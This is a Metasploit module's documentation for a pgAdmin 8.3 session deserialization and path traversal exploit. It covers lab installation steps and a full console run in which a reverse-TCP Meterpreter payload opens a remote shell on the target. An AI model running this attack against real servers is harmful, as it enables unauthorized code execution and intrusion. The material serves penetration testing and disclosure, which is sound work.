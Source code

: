 ## Vulnerable Application
pgAdmin versions <= 8.3 have a path traversal vulnerability within their session management logic that can allow a
pickled file to be loaded from an arbitrary location. This can be used to load a malicious, serialized Python object to
execute code within the context of the target application.

This exploit supports two techniques by which the payload can be loaded, depending on whether or not credentials are
specified. If valid credentials are provided, Metasploit will login to pgAdmin and upload a payload object using
pgAdmin's file management plugin. Once uploaded, this payload is executed via the path traversal before being deleted
using the file management plugin. This technique works for both Linux and Windows targets. If no credentials are
provided, Metasploit will start an SMB server and attempt to trigger loading the payload via a UNC path. This technique
only works for Windows targets. For Windows 10 v1709 (Redstone 3) and later, it also requires that insecure outbound
guest access be enabled.

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/multi/http/pgadmin_session_deserialization`
1. Set the `RHOST`, `PAYLOAD`, and optionally the `USERNAME` and `PASSWORD` options
1. Do: `run`

### Installation (Docker on Linux)

A docker instance can be started using the following command. It'll start on port 8080 with an initial account for
`metasploit@gmail.com`. Additional accounts can be created through the web UI.

```
docker run -p 8080:80 \
    -e 'PGADMIN_DEFAULT_EMAIL=metasploit@gmail.com' \
    -e 'PGADMIN_DEFAULT_PASSWORD=Password1!' \
    -d dpage/pgadmin4:8.3
```

### Installation (Windows)

These steps are the bare minimum to get the application to run for testing and should not be use for a production setup.
For a production setup, a server like Apache should be setup to run pgAdmin through it's WSGI interface.

**The following paths are all relative to the default installation path `C:\Program Files\pgAdmin 4\web`**.

1. [Download][1] and install the Windows build
1. Copy the `config_distro.py` file to `config_local.py`
1. Edit `config_local.py` and set `SERVER_MODE` to `True`
1. Upgrade pip:  `..\python\python.exe -m pip upgrade`
1. Install python package required by `setup.py`:  `..\python\python.exe -m pip install "psycopg[binary,pool]"`
1. Initialize the database: `..\python\python.exe setup.py setup-db`
1. Create an initial user account: `..\python\python.exe setup.py add-user --admin metasploit@gmail.com Password1!`
1. Run the application: `..\python\python.exe pgAdmin4.py`

## Scenarios
Specific demo of using the module that might be useful in a real world scenario.

### pgAdmin 8.3 on Docker

```
metasploit-framework (S:0 J:0) exploit(multi/http/pgadmin_session_deserialization) > set RHOSTS 192.168.250.134
RHOSTS => 192.168.250.134
metasploit-framework (S:0 J:0) exploit(multi/http/pgadmin_session_deserialization) > set RPORT 8080
RPORT => 8080
metasploit-framework (S:0 J:0) exploit(multi/http/pgadmin_session_deserialization) > set SSL false
[!] Changing the SSL option's value may require changing RPORT!
SSL => false
metasploit-framework (S:0 J:0) exploit(multi/http/pgadmin_session_deserialization) > set USERNAME user@gmail.com
USERNAME => user@gmail.com
metasploit-framework (S:0 J:0) exploit(multi/http/pgadmin_session_deserialization) > set PASSWORD Password1!
PASSWORD => Password1!
metasploit-framework (S:0 J:0) exploit(multi/http/pgadmin_session_deserialization) > set PAYLOAD python/meterpreter/reverse_tcp
PAYLOAD => python/meterpreter/reverse_tcp
metasploit-framework (S:0 J:0) exploit(multi/http/pgadmin_session_deserialization) > set LHOST 192.168.250.134
LHOST => 192.168.250.134
metasploit-framework (S:0 J:0) exploit(multi/http/pgadmin_session_deserialization) > run

[*] Started reverse TCP handler on 192.168.250.134:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. pgAdmin version 8.3.0 is affected
[*] Successfully authenticated to pgAdmin
[*] Serialized payload uploaded to: /var/lib/pgadmin/storage/zeroSteiner_gmail.com/reiciendis.pages
[*] Triggering deserialization for path: ../storage/zeroSteiner_gmail.com/reiciendis.pages
[*] Sending stage (24768 bytes) to 192.168.250.134
[*] Meterpreter session 1 opened (192.168.250.134:4444 -> 192.168.250.134:45930) at 2024-03-29 12:01:04 -0400

meterpreter > getuid
Server username: pgadmin
meterpreter > sysinfo
Computer     : 27b165126272
OS           : Linux 6.7.9-200.fc39.x86_64 #1 SMP PREEMPT_DYNAMIC Wed Mar  6 19:35:04 UTC 2024
Architecture : x64
Meterpreter  : python/linux
meterpreter > pwd
/pgadmin4
meterpreter > 
```

[1]: https://www.postgresql.org/ftp/pgadmin/pgadmin4/v8.3/windows/
